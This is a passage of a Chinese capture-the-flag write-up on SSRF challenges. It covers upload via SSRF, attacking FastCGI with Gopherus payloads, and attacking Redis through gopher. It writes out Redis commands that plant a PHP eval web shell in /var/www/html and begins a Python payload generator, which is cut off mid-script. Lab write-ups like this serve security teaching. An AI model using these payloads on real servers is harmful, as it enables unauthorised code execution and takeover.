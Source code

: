 ```php
    <input type="file" name="file">
</form>
```

因为前端没有提交按钮，可以自己加一个

![](https://i.loli.net/2021/09/14/XwhfymQu41LSWP2.png)

传个shell然后bp抓包，修改host为127.0.0.1

![](https://i.loli.net/2021/09/14/7iXfVExFnTNlh8j.png)

然后利用上题的脚本，gopher协议生成payload
再ssrf：![](https://i.loli.net/2021/09/14/sYbw15HFftzKPDa.png)

### FastCGI协议

> 这次.我们需要攻击一下fastcgi协议咯.也许附件的文章会对你有点帮助
>
> [Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写_mysteryflower的专栏-CSDN博客](https://blog.csdn.net/mysteryflower/article/details/94386461)

payload可以用给的，也可以直接gopherus生成：
![](https://i.loli.net/2021/09/15/1p8dDS5FkNbU6yh.png)
（ps：先`ls /`获得flag文件名，再cat)

得到的payload记得再url编码一次

![](https://i.loli.net/2021/09/15/JQ67K3NxtRZYahH.png)

### Redis协议

> 这次来攻击redis协议吧.redis://127.0.0.1:6379,资料?没有资料!自己找!
>
> [浅析Redis中SSRF的利用 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5665)
>
> [Redis 配置详解](https://www.redis.com.cn/redis-configuration.html)
>
> [CTFHub-SSRF部分（已完结）feng](https://blog.csdn.net/rfrder/article/details/108589988)



> redis命令
>
> ```
> flushall
> set 1 '<?php eval($_GET['a']);?>'
> config set dir /var/www/html
> config set dbfilename shell.php
> save
> ```
>
> 然后利用脚本其转换为url传递即可，同样要进行url二次编码
>
> ```python
> import urllib
> from urllib import parse
> 
> protocol = "gopher://"
> ip = "127.0.0.1"
> port = "6379"
> shell = "\n\n<?php eval($_GET[\'a\']);?>\n\n"
> filename = "shell.php"
> path = "/var/www/html"
> passwd = ""
> cmd = ["flushall",